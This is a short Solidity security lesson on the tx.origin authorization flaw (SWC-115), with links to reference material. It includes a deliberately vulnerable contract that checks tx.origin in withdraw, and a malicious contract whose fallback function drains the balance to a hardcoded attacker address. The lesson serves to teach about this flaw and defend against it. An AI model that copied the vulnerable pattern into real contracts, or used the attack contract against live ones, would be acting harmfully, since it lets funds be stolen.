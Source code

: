 TxOrigin Attack (SWC-115)
-------------------------

In this lesson we are going to cover a `tx.origin` attack. The global variable `tx.origin` in Solidity always references the address of the original sender of the transaction, of the full call chain. [See the reference in the docs here.](https://solidity.readthedocs.io/en/latest/units-and-global-variables.html?highlight=tx.origin#block-and-transaction-properties) This is different than `msg.sender` in that `msg.sender` references the address of the sender of the current call.

You should never use `tx.origin` in Solidity for authorization ([SWC-115](https://swcregistry.io/docs/SWC-115)). The following smart contract shows you why. It is susceptible to attack.

```
pragma solidity >0.5.0;  

// Example Tx.Origin Authentication Attack     
contract VulnerableContract {      
  address payable owner = msg.sender;             
  
  function withdraw(address payable _recipient) public {          
    require(tx.origin == owner);          
    _recipient.transfer(address(this).balance);      
  }             
  
  function getBalance() view public returns(uint) {          
    return address(this).balance;      
  }             
  
  function() external payable {}  
}     

contract MaliciousContract {      
  VulnerableContract vulnerableContract = VulnerableContract(0x08970FEd061E7747CD9a38d680A601510CB659FB);      
  address payable attackerAddress = 0xdD870fA1b7C4700F2BD7f44238821C26f7392148;             
  
  function() external payable {          
    vulnerableContract.withdraw(attackerAddress);      
  }  
}
```

In this contract, if the creator of the VulnerableContract is tricked into calling the MaliciousContract, the Malicious contract will be able to drain the VulnerableContract of all funds.

Additional Resources:

* [Solidity documentation on the security considerations of tx.origin](https://solidity.readthedocs.io/en/latest/security-considerations.html?#tx-origin)
* [The SWC Registry entry for Authorization through tx.origin](https://swcregistry.io/docs/SWC-115)
